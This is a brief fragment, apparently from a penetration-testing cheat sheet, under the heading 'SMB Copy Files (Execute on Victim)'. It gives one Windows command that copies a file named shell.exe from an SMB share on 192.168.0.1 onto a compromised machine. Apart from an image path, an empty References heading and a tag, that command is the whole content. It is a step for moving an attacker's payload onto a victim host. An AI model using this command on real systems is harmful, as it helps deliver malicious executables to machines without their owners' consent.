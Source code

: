 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# References

Tags:
    #assorted

